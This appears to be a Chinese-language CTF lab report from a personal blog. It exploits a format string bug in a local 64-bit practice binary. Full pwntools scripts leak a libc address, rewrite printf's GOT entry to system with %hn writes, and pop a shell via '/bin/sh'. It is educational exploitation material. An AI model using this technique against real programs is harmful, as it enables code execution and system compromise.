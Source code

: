 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      格式化字符串漏洞实验报告 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-12 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-9.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 格式化字符串
    - PWN
    - CTF
---
```

# 格式化字符串漏洞实验报告

## 考点

- 格式化字符串漏洞利用
- 对64程序与32位程序区别的理解
- 覆写got表地址

## 实验过程

- 使用checksec, file, ldd等命令查看程序信息：

![基本信息](/img/posts/2023-10-12-格式化漏洞利用/images/基本信息.png)

​		可见程序为64位，启动了DEP保护，动态链接。

- 使用patchelf修改libc文件。

![patchelf](/img/posts/2023-10-12-格式化漏洞利用/images/patchelf.png)

- 使用ida库打开程序，反编译。

![main](/img/posts/2023-10-12-格式化漏洞利用/images/main.png)

​		可以发现`printf(buf)`代码存在格式化字符串漏洞。

- 构造python脚本进行gdb调试：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

payload = flat(b"%1$p")
gdb.attach(p, "b *0x4006AD")
p.sendlineafter("Format String\n", payload)

p.interactive()
```

​		`%1$p`表示输出第一个参数的指针形式输出![gdb](/img/posts/2023-10-12-格式化漏洞利用/images/gdb.png)

​		查看栈中情况，可以发现`_libc_stat_main+240`地址，计算得到该地址为第26个参数（64位程序需要注意前6个参数会在寄存器中）。因此要泄漏`libc`地址，可以利用`%25$p`。

- 获取libc基址后，可以获取libc中的`system`函数地址。然后可以通过修改printf函数got表的方式来使程序在执行`printf`函数转去执行`system`函数，并且以输入`"/bin/sh"`字符串达到执行函数`system("/bin/sh")`的目的。
- 由于64位程序中函数地址高位为`\x00`，因此会导致printf函数输出时截断，所以构造payload时printf函数地址需要放在末尾，然后由于64位地址如果使用`%n`直接对整体进行修改的话，会造成printf输出字符数目过大，耗时且易崩溃。所以考虑使用`%hn`来进行两字节的修改。
- 构造payload，根据system函数的地址分两次修改。

```python
# flag: tmp1 < tmp2时为True
# tmp1: 高两字节， tmp2: 低两字节
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)
```

​		发送payload后栈情况：

![payload-gdb](/img/posts/2023-10-12-格式化漏洞利用/images/payload-gdb.png)

​		执行printf函数后，可见printf函数got表地址已被修改为system函数地址，然后输入`"/bin/sh"`字符串，即可返回shell。

![payload-gdb-1](/img/posts/2023-10-12-格式化漏洞利用/images/paylaod-gdb-1.png)

- 最终python脚本如下：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

# 获取read函数在libc中偏移
libc = ELF("./libc-2.23.so")
system_offset = libc.symbols['system']

# 泄漏libc地址
payload = flat(b'%25$p')
gdb.attach(p, 'b *0x4006AD')
p.sendlineafter("Format String\n", payload)
libc_addr = int(p.recvline(), 16) - 0x20840  # 0x20840
success(hex(libc_addr))

system_addr = libc_addr + system_offset
print(hex(system_addr))

flag = True
tmp = str(hex(system_addr))
print(tmp)
tmp1 = tmp[6:10]
tmp2 = tmp[10:14]
tmp1 = int(tmp1, 16)
tmp2 = int(tmp2, 16)
if tmp1 > tmp2:
    flag = False
    tmp1 = tmp1 - tmp2
else:
    flag = True
    tmp2 = tmp2 - tmp1
print(tmp1)
print(tmp2)
tmp1 = str(tmp1)
tmp2 = str(tmp2)


# 修改got表
elf = ELF("./format_string")
printf_got = elf.got["printf"]
print(printf_got)
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)

p.send(payload)

# 发送"/bin/sh"字符串
payload = flat(b"/bin/sh")
p.send(payload)

p.interactive()
```



## 结果

![result](/img/posts/2023-10-12-格式化漏洞利用/images/result.png)
